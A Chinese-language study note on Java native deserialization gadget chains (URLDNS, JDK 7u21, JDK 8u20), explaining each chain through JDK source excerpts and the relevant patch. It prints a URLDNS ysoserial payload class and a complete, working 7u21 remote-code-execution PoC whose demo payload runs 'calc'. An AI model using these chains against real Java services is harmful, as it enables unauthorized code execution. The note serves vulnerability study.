


# JDK 原生反序列化漏洞

## URLDNS

URLDNS通常用于检测是否存在Java反序列化漏洞，该利用链具有如下特点:

1.  URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
2.  不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
3.  目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞


### 原理

`java.util.HashMap`实现了Serializable接口，重写了`readObject`方法，在反序列化时，HashMap会调用hash函数计算key的hashCode,
而`java.net.URL`的hashCode在计算时会调用`getHostAddress`来解析域名, 从而发出DNS请求

=== "java.util.HashMap"

    ```java 
        private void readObject(java.io.ObjectInputStream s)
            throws IOException, ClassNotFoundException {
            // Read in the threshold (ignored), loadfactor, and any hidden stuff
            s.defaultReadObject();
            reinitialize();
            if (loadFactor <= 0 || Float.isNaN(loadFactor))
                throw new InvalidObjectException("Illegal load factor: " +
                                                loadFactor);
            s.readInt();                // Read and ignore number of buckets
            int mappings = s.readInt(); // Read number of mappings (size)
            if (mappings < 0)
                throw new InvalidObjectException("Illegal mappings count: " +
                                                mappings);
            else if (mappings > 0) { // (if zero, use defaults)
                // Size the table using given load factor only if within
                // range of 0.25...4.0
                float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
                float fc = (float)mappings / lf + 1.0f;
                int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                        DEFAULT_INITIAL_CAPACITY :
                        (fc >= MAXIMUM_CAPACITY) ?
                        MAXIMUM_CAPACITY :
                        tableSizeFor((int)fc));
                float ft = (float)cap * lf;
                threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                            (int)ft : Integer.MAX_VALUE);

                // Check Map.Entry[].class since it's the nearest public type to
                // what we're actually creating.
                SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
                @SuppressWarnings({"rawtypes","unchecked"})
                Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
                table = tab;

                // Read the keys and values, and put the mappings in the HashMap
                for (int i = 0; i < mappings; i++) {
                    @SuppressWarnings("unchecked")
                        K key = (K) s.readObject();
                    @SuppressWarnings("unchecked")
                        V value = (V) s.readObject();
                    putVal(hash(key), key, value, false, false);
                }
            }
        }
    ```

=== "java.net.URL"

    ```java
        public synchronized int hashCode() {
            if (hashCode != -1)
                return hashCode;

            hashCode = handler.hashCode(this);
            return hashCode;
        }
    ```

=== "java.net.URLStreamHandler"

    ```java
        protected int hashCode(URL u) {
            int h = 0;

            // Generate the protocol part.
            String protocol = u.getProtocol();
            if (protocol != null)
                h += protocol.hashCode();

            // Generate the host part.
            InetAddress addr = getHostAddress(u);
            if (addr != null) {
                h += addr.hashCode();
            } else {
                String host = u.getHost();
                if (host != null)
                    h += host.toLowerCase().hashCode();
            }

            // Generate the file part.
            String file = u.getFile();
            if (file != null)
                h += file.hashCode();

            // Generate the port part.
            if (u.getPort() == -1)
                h += getDefaultPort();
            else
                h += u.getPort();

            // Generate the ref part.
            String ref = u.getRef();
            if (ref != null)
                h += ref.hashCode();

            return h;
        }
    ```


因此，将URL对象作为HashMap的key存储，反序列化时就会触发DNS请求。

### PoC

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                // Reflections是yso的一个工具类，用于反射修改对象的属性
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```


## JDK 7u21

JDK 7u21 是一个原生的反序列化利用链，主要通过`AnnotationInvocationHandler`和`TemplatesImpl`两个类来构造。

### euqalsImpl

我们还是首先关注`AnnotationInvocationHandler`类的invoke()方法

```java
    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        assert paramTypes.length == 0;
        if (member.equals("toString"))
            return toStringImpl();
        if (member.equals("hashCode"))
            return hashCodeImpl();
        if (member.equals("annotationType"))
            return type;

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
```

此前我们在CC1-LazyMap链中主要利用了后面的get方法，而在这条链里我们主要关注前面的if。

当方法名为`equals`且参数个数为1时，会调用`equalsImpl`方法

```java title="equalsImpl"
    private Boolean equalsImpl(Object o) {
        if (o == this)
            return true;

        if (!type.isInstance(o))
            return false;
        for (Method memberMethod : getMemberMethods()) {
            String member = memberMethod.getName();
            Object ourValue = memberValues.get(member);
            Object hisValue = null;
            AnnotationInvocationHandler hisHandler = asOneOfUs(o);
            if (hisHandler != null) {
                hisValue = hisHandler.memberValues.get(member);
            } else {
                try {
                    hisValue = memberMethod.invoke(o); // (1)
                } catch (InvocationTargetException e) {
                    return false;
                } catch (IllegalAccessException e) {
                    throw new AssertionError(e);
                }
            }
            if (!memberValueEquals(ourValue, hisValue))
                return false;
        }
        return true;
    }
```

其中`(1)`处的`hisValue = memberMethod.invoke(o)`调用了invoke方法，memberMethod 来自于`this.type.getDeclaredMethods()`，这里的type是通过构造函数传进的一个Annotation的子类

```java
    // 构造函数
    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        this.type = type;
        this.memberValues = memberValues;
    }

    // MemberMethods
    private Method[] getMemberMethods() {
        if (memberMethods == null) {
            memberMethods = AccessController.doPrivileged(
                new PrivilegedAction<Method[]>() {
                    public Method[] run() {
                        final Method[] mm = type.getDeclaredMethods();
                        AccessibleObject.setAccessible(mm, true);
                        return mm;
                    }
                });
        }
        return memberMethods;
    }
```

也就是说，在`equalsImpl`中，遍历了`this.type`中的所有get方法并且执行`invoke(o)`。

### TemplatesImpl

我们令type为TemplatesImpl类，将o(即执行方法的对象)置为恶意构造的TemplatesImpl实例，则`equalsImpl`会调用`TemplatesImpl.getOutputProperties()`，加载类字节码实现RCE。

TemplatesImpl利用参考[Fastjson](/Sec/Web/Deserial/Fastjson/#1224)

### LinkedHashSet

为了触发invoke，我们需要寻找能够调用`equals`方法的类。

这里通常的利用是通过LinkedHashSet，LinkedHashSet继承自HashSet，HashSet在`readObject`时会调用`putForCreate`方法向集合中添加元素

```java title="HashSet"
    private void putForCreate(K key, V value) {
        int hash = null == key ? 0 : hash(key);
        int i = indexFor(hash, table.length);

        /**
         * Look for preexisting entry for key.  This will never happen for
         * clone or deserialize.  It will only happen for construction if the
         * input Map is a sorted map whose ordering is inconsistent w/ equals.
         */
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || (key != null && key.equals(k)))) {
                e.value = value;
                return;
            }
        }

        createEntry(hash, key, value, i);
    }
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                               loadFactor);

        // set hashSeed (can only happen after VM boot)
        Holder.UNSAFE.putIntVolatile(this, Holder.HASHSEED_OFFSET,
                sun.misc.Hashing.randomHashSeed(this));

        // Read in number of buckets and allocate the bucket array;
        s.readInt(); // ignored

        // Read number of mappings
        int mappings = s.readInt();
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                               mappings);

        int initialCapacity = (int) Math.min(
                // capacity chosen by number of mappings
                // and desired load (if >= 0.25)
                mappings * Math.min(1 / loadFactor, 4.0f),
                // we have limits...
                HashMap.MAXIMUM_CAPACITY);
        int capacity = 1;
        // find smallest power of two which holds all mappings
        while (capacity < initialCapacity) {
            capacity <<= 1;
        }

        table = new Entry[capacity];
        threshold = (int) Math.min(capacity * loadFactor, MAXIMUM_CAPACITY + 1);
        useAltHashing = sun.misc.VM.isBooted() &&
                (capacity >= Holder.ALTERNATIVE_HASHING_THRESHOLD);

        init();  // Give subclass a chance to do its thing.

        // Read the keys and values, and put the mappings in the HashMap
        for (int i=0; i<mappings; i++) {
            K key = (K) s.readObject();
            V value = (V) s.readObject();
            putForCreate(key, value);
        }
    }
```

发现在`putForCreate`方法中`if (e.hash == hash && ((k = e.key) == key || (key != null && key.equals(k))))` 调用了`equals`方法，需要满足条件哈希值相等但key不相等。

现在hashset中添加`TemplatesImpl`，将key置为代理对象proxyInstance插入时即可进入`proxyInstance.equals(TemplatesImpl)`方法触发`AnnotationInvocationHandler`的invoke。

要满足key不相同的条件只需传入的两个元素key不是相同的类即可。难点在于让代理对象的哈希值和`TemplatesImpl`对象的哈希值相同，`TemplatesImpl`的`hashCode()`是个`Native()`方法，每次运行都会改变，不可控。

对于代理对象的`hashCode()`，它也会触发invoke进入`AnnotationInvocationHandler`的`hashCodeImpl`方法

```java title="hashCodeImpl"
    private int hashCodeImpl() {
        int result = 0;
        for (Map.Entry<String, Object> e : memberValues.entrySet()) {
            result += (127 * e.getKey().hashCode()) ^ memberValueHashCode(e.getValue());
        }
        return result;
    }    
```

计算方法为遍历memberValues，对`(127*hash(key))^hash(value)`求和，我们的memberVlues只需要一个元素即可，因此我们需要满足等式`(127*hash(key))^hash(value)==TemplatesImpl.hashCode()`。

一个巧妙地思路是令hash(key)为0，这样只需满足`hash(value)==TemplatesImpl.hashCode()`即，而我们可以将value置为插入HashSet的`TemplatesImpl`实例，这样哈希值就相同了。常用哈希值为0的key：`f5a5a608`。

至此，整条利用链已经构造完成。

### PoC

=== "Jdk7u21.java"

    ```java
    package cc.jdk7u21;

    import cc.util.SerializeUtil;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

    import javax.xml.transform.Templates;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.util.HashMap;
    import java.util.HashSet;
    import java.util.LinkedHashSet;
    import java.util.Map;

    public class Jdk7u21 {
        public static void main(String[] args) throws Exception{
            byte[] evilCode = SerializeUtil.getEvilCode();
            TemplatesImpl templates = new TemplatesImpl();
            SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
            SerializeUtil.setFieldValue(templates,"_name","colemak");

            HashMap<String, Object> memberValues = new HashMap<String, Object>();

            // 为了避免在序列化前向 hashSet 中添加元素时就发生 hash 冲突触发漏洞，这里先修改value的值
            memberValues.put("f5a5a608","colemak"); 

            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
            cons.setAccessible(true);
            InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


            Templates proxy = (Templates) Proxy.newProxyInstance(
                    Templates.class.getClassLoader(),
                    new Class[]{Templates.class},
                    handler
            );


            HashSet hashSet = new LinkedHashSet();
            hashSet.add(templates);
            hashSet.add(proxy);

            // 由于 java 的 Map 赋值是传递引用，因此这里的 value 修改后 proxy 里 map 的值也会改变
            // 从而让反序列化时 hash 冲突调用 equals 方法
            memberValues.put("f5a5a608",templates);
            
            byte[] bytes = SerializeUtil.serialize(hashSet);
            SerializeUtil.unserialize(bytes);
        }
    }
    ```

=== "EvilCode.java"

    ```java
    package cc.jdk7u21;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    public class EvilTest extends AbstractTranslet {

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
        public EvilCode() throws Exception{
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

=== "SerializeUtil.java"

    ```java
    package cc.jdk7u21;

    import javassist.ClassPool;
    import javassist.CtClass;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.lang.reflect.Field;

    public class SerializeUtil {
        public static Object getFieldValue(Object obj, String fieldName) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            return field.get(obj);
        }
        public static byte[] getEvilCode() throws Exception{
            ClassPool pool = ClassPool.getDefault();
            CtClass clazzz = pool.get("EvilCode");
            byte[] code = clazzz.toBytecode();
            return code;
        }

        public static void unserialize(byte[] bytes) throws Exception{
            try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
                ObjectInputStream oin = new ObjectInputStream(bain)){
                oin.readObject();
            }
        }

        public static byte[] serialize(Object o) throws Exception{
            try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
                ObjectOutputStream oout = new ObjectOutputStream(baout)){
                oout.writeObject(o);
                return baout.toByteArray();
            }
        }
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj,value);
        }
    }
    ```

测试成功：

{loading="lazy"}

### 修复补丁

type设为TemplatesImpl理论上无法作为AnnotationInvocationHandler反序列化，但在原有的 `AnnotationInvocationHandler.readObject()` 方法中，异常处理部分直接return，不会抛出异常

```java
    private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; all bets are off
            return;
        }
        ...
    }
```

该漏洞在随后的版本中进行了修复，将`return`修改成了`throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");` 此时type无法设置为非Annotation类型，但该修复方式仍存在问题，后来在JDK 8u20中爆出了新的原生反序列化漏洞。


### 参考资料

- [原生反序列化链JDK7u21](https://ch0x01e.github.io/post/yuan-sheng-fan-xu-lie-hua-lian-jdk7u21/){target="_blank"}
- [JDK7u21反序列化链学习](https://blog.csdn.net/rfrder/article/details/120007644){target="_blank"}

## JDK 8u20

JDK 8u20 是对 JDK 7u21 修复的绕过，作者在 [More serialization hacks with AnnotationInvocationHandler](https://wouter.coekaerts.be/2015/annotationinvocationhandler){target="_blank"} 中提出了绕过方法，需要对 Java 序列化机制有一定的了解。


### Try-Catch 机制

对于如下代码，思考运行后会发生什么：

``` java
public static void main(String[] args) throws Exception {
        try {
            System.out.println("Start");
            try {
                int a = 1/0;
            } catch (ArithmeticException e) {
                throw new InvalidObjectException("Invalid");
                System.out.println("In");
            }
        } catch (Exception e) {
        }
        System.out.println("End");
    }
```

运行结果应为：

``` shell
Start
End
```

这是由于内部的 try-catch 块抛出了异常被外层捕获，而外层的 catch 忽略了异常，所以程序正常继续执行。

回到`AnnotationInvocationHandler.readObject()`方法，我们可以看到实际上我们构造的类已经通过`defauleReadObject()`方法被反序列化，但是由于异常处理导致反序列化链无法继续进行。通过上面的例子是否可以绕过限制呢？

我们需要寻找一个类，满足以下条件：

1. 实现 `Serializable` 接口
2. 重写了 `readObject()` 方法
3. 在 `readObject()` 中存在对 `readObject()` 的调用，并且对调用的`readObject()`捕获异常且继续执行。

### BeanContextSupport

在 jdk 中我们找到了想要的类 `java.beans.beancontext.BeanContextSupport`

```java
    public final void readChildren(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        int count = serializable;

        while (count-- > 0) {
            Object                      child = null;
            BeanContextSupport.BCSChild bscc  = null;

            try {
                child = ois.readObject();
                bscc  = (BeanContextSupport.BCSChild)ois.readObject();
            } catch (IOException ioe) {
                continue;
            } catch (ClassNotFoundException cnfe) {
                continue;
            }


            synchronized(child) {
                BeanContextChild bcc = null;

                try {
                    bcc = (BeanContextChild)child;
                } catch (ClassCastException cce) {
                    // do nothing;
                }

                if (bcc != null) {
                    try {
                        bcc.setBeanContext(getBeanContextPeer());

                       bcc.addPropertyChangeListener("beanContext", childPCL);
                       bcc.addVetoableChangeListener("beanContext", childVCL);

                    } catch (PropertyVetoException pve) {
                        continue;
                    }
                }

                childDeserializedHook(child, bscc);
            }
        }
    }

    private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

        synchronized(BeanContext.globalHierarchyLock) {
            ois.defaultReadObject();

            initialize();

            bcsPreDeserializationHook(ois);

            if (serializable > 0 && this.equals(getBeanContextPeer()))
                readChildren(ois);

            deserialize(ois, bcmListeners = new ArrayList(1));
        }
    }
```
如果其serializable的值为不为0，会进入到`readChildren`中，随后调用`ois.readObject()`读取序列化字节码中的内容

### 序列化引用机制

在最终的利用前，我们需要了解一下 Java 的序列化机制。

> 在序列化流程中，对象所属类、对象成员属性等数据都会被使用固定的语法写入到序列化数据，并且会被特定的方法读取；在序列化数据中，存在的对象有null、new objects、classes、arrays、strings、back references等，这些对象在序列化结构中都有对应的描述信息。
> 
> 为了避免重复写入完全相同的元素，Java 反序列化存在引用机制：每一个写入字节流的对象都会被赋予引用Handle，出现重复对象时使用`TC_REFERENCE`结构引用前面handle的值。
> 
> 引用Handle会从`0x00 7E 00 00`开始进行顺序赋值并且自动自增，一旦字节流发生了重置则该引用Handle会重新开始计数。

!!! example

    ```java
    import java.io.*;

    public class exp implements Serializable {
        private static final long serialVersionUID = 100L;
        public static int num = 0;
        private void readObject(ObjectInputStream input) throws Exception {
            input.defaultReadObject();
        }
        public static void main(String[] args) throws IOException {
            exp t = new exp();
            ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("test"));
            out.writeObject(t);
            out.writeObject(t); //第二次写入
            out.close();
        }
    }
    ```

使用 [SerializationDumper](https://github.com/NickstaDB/SerializationDumper){target="_blank"} 可以查看序列化后的数据

{loading="lazy"}

由于我们写入了两次，最后部分的`TC_REFERENCE`块为handle引用指向了前面的对象 `0x00 7e 00 01`

### PoC

`AnnotationInvocationHandler.readObject()`方法中的异常处理前已经反序列化了我们构造的对象，这就生成了一个有效的 handle 值，通过`BeanContextSupport` 绕过异常处理后可以通过`TC_REFERENCE` 来引用已经序列化好的 `AnnotationInvocationHandler` 对象，继续7u21的利用链即可。

修改序列化字节码是JDK 8u20利用链的难点，这里参考文章[以一种更简单的方式构造JRE8u20 Gadget](https://xz.aliyun.com/t/8277){target="_blank"}，示意图如下：

{loading="lazy"}

[PoC](https://github.com/feihong-cs/jre8u20_gadget){target="_blank"}

### 参考资料

- [7u21 与 8u20](https://www.cnblogs.com/beautiful-code/p/15005485.html){target="_blank"}
- [反序列化篇之JDK8u20](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BJDK8u20/){target="_blank"}

